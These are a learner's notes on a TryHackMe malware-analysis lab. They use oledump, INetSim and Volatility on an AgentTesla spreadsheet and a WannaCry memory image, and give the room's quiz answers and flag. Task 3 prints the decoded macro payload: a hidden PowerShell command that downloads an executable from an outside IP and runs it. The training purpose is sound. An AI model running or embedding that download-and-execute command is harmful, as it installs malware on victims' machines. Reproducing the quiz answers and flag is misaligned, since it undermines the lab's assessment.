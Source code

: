 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/re-mnux-getting-started/","created":"2024-11-26T11:23:00.000-05:00","updated":"2025-03-12T00:21:28.582-04:00"}
---
```


# Task 3 - File Analysis

- Using tool called “oledump.py” for forensic analysis for OLE2 files (Microsoft proprietary)
	- OLE2, stores multiple datatypes within a single file

![image 38.png](/img/user/TryHackMe/THM_Images/ee14bdbb3f75e30eb51e9291b8091e97.png)

Check out the datastreams (A#) with given letters, (A4: M [macro])

```Bash
oledump.py agenttesla.xlsm -s 4
```

![image 39.png](/img/user/TryHackMe/THM_Images/204eee1facbb27df9e9560ed853a2ba1.png)

Doing this produces a result that’s harder to read, so use the “—vbadecompress” flag to make it more human readable

```Bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

![image 40.png](/img/user/TryHackMe/THM_Images/3e7e50f8903591bbaa98134f27176d5f.png)

Focus on the “Sqtnew” file, realized that we can replace both ^ and * character with no characters, (replace with “”).

Can do with CyberChef

![image 41.png](/img/user/TryHackMe/THM_Images/f6119111f8ac4ad6c3971f7eeec1d298.png)

Get the output

> "powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } �PassThru; Invoke-WebRequest -Uri ""[http://193.203.203.67/rt/Doc-3737122pdf.exe](http://193.203.203.67/rt/Doc-3737122pdf.exe)"" -OutFile $TempFile; Start-Process $TempFile;"

This command is the VBA macro that runs once the .xlsm file is open. It opens Powershell in the background and downloads this file through the IP address. It’ll then start running the file.

> [!Question] 
**What Python tool analyzes OLE2 files, commonly called Structured Storage or Compound File Binary Format?**

> [!done] Answer
oledump.py

> [!Question] 
**What tool parameter we used in this task allows you to select a particular data stream of the file we are using it with?**

> [!done] Answer
-s

> [!question] 
**During our analysis, we were able to decode a PowerShell script. What command is commonly used for downloading files from the internet?**

> [!done] Answer
Invoke-WebRequest

> [!question] 
**What file was being downloaded using the PowerShell script?**

> [!done] Answer
Doc-3737122pdf.exe

> [!question] 
**During our analysis of the PowerShell script, we noted that a file would be downloaded. Where will the file being downloaded be stored?**

> [!done] `Answer`
`$TempFile`

> [!question] 
**Using the tool, scan another file named `possible_malicious.docx` located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. How many data streams were presented for this file?**

![image 42.png](/img/user/TryHackMe/THM_Images/9f2d47fc366f1123bc564f90b7f15d5c.png)

> [!done] Answer
16

> [!question] 
**Using the tool, scan another file named `possible_malicious.docx` located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. At what data stream number does the tool indicate a macro present?**

Based off the screenshot above

> [!done] Answer
8

# Task 4 - Fake Network to Aid Analysis

- INetSim: Internet Services Simulation Suite
	- Observes behaviours of malicious software in it’s network activities

INetSim Config

Do this on the RemuxVM (has the tool)
    
```Bash
sudo nano /etc/inetsim/inetsim.conf
```
    
Change the _dns_default_ip 0.0.0.0_ to the machine IP

![image 43.png](/img/user/TryHackMe/THM_Images/3da78d16985f5785377cb658a4dcac50.png)

![image 44.png](/img/user/TryHackMe/THM_Images/5a6687ce7e3f3ac74c3b6afe333da87d.png)
    
Run the command below to start the tool

```Bash
sudo inetsim
```

![image 45.png](/img/user/TryHackMe/THM_Images/62dc7e7bcf1f8d4d29b885cfc599de89.png)
    
Go back to attack box to and try to go to it’s IP address to see the INetSim’s homepage

![image 46.png](/img/user/TryHackMe/THM_Images/6de4163eee1390e38c7389e4f7acdfea.png)


Common behaviours of malware is to download binary or scripts, can mimic it with the command
    
```Bash
sudo wget https://10.10.153.203/second_payload.zip --no-check-certificate
```

![image 47.png](/img/user/TryHackMe/THM_Images/452fdab3ce8fa8bda5f9849d80d5ebcc.png)
    
Back on the Remuix, can stop it and it’ll create a report on connections, Usually saved in `var/log/inetsim/report/`

![image 48.png](/img/user/TryHackMe/THM_Images/4d6caa0cbb07f09e8de498596e3fb44c.png)

> [!Question]
> 
> **Download and scan the file named `flag.txt` from the terminal using the command `sudo wget https://10.10.153.203/flag.txt --no-check-certificate`. What is the flag?**

![image 49.png](/img/user/TryHackMe/THM_Images/f903580aae1216681b504e231cfdd592.png)

> [!done] Answer
Tryhackme{remnux_edition}

> [!Question]
> 
>**After stopping the inetsim, read the generated report. Based on the report, what URL Method was used to get the file flag.txt?**

> [!done] Answer
GET

# Task 5 - Memory Investigation: Evidence Preprocessing

- Volatility
	- Extracts artefacts from memory images
	- Saves output to txt for further examinations
	- This room focus on windows plugins like:
		- windows.pstree.PsTree
		- windows.pslist.PsList
		- windows.cmdline.CmdLine
		- windows.filescan.FileScan
		- windows.dlllist.DllList
		- windows.malfind.Malfind
		- windows.psscan.PsScan

Need to go to directory with .mem file and run the command 
	
```Bash
vol3 -f wcry.mem <plugin-here>

Example: vol3 -f wcry.mem windows.pstree.PsTree
```

Can do a loop statement to run the process in bulk
    
```Bash
for plugin in windows.malfind.Malfind windows.psscan.PsScan windows.pstree.PsTree windows.pslist.PsList windows.cmdline.CmdLine windows.filescan.FileScan windows.dlllist.DllList; do vol3 -q -f wcry.mem $plugin > wcry.$plugin.txt; done
```

Can preprocess image with Linux **strings** utility, Extracts ASCII, 16-bit little-endian, and 16-bit big-endian strings.
    
```Bash
strings wcry.mem > wcry.strings.ascii.txt
strings -e l wcry.mem  > wcry.strings.unicode_little_endian.txt
strings -e b wcry.mem > wcry.strings.unicode_big_endian.txt
```
    

> [!question] 
**What plugin lists processes in a tree based on their parent process ID?**

> [!done] Answer
PsTree

> [!question] 
**What plugin is used to list all currently active processes in the machine?**

> [!done] Answer
PsList

> [!question] 
**What Linux utility tool can extract the ASCII, 16-bit little-endian, and 16-bit big-endian strings?**

> [!done] Answer
strings

> [!question] 
**By running vol3 with the Malfind parameter, what is the first (1st) process identified suspected of having an injected code?**

![1000](/img/user/TryHackMe/THM_Images/874a8ae56193006c240195f1372c8b3d.png)

> [!done] Answer
csrss.exe

> [!question] 
**Continuing from the previous question (Question 6), what is the second (2nd) process identified suspected of having an injected code?**

> [!done] Answer
winlogon.exe

> [!question] 
**By running vol3 with the DllList parameter, what is the file path or directory of the binary @WanaDecryptor@.exe?**

![image 51.png](/img/user/TryHackMe/THM_Images/a97a19fae91c6b6db0b8a60583f5540e.png)

![image 52.png](/img/user/TryHackMe/THM_Images/dac14b46be2f2c04305d76d93a8a95d5.png)

> [!done] Answer
`C:\Intel\ivecuqmanpnirkt615`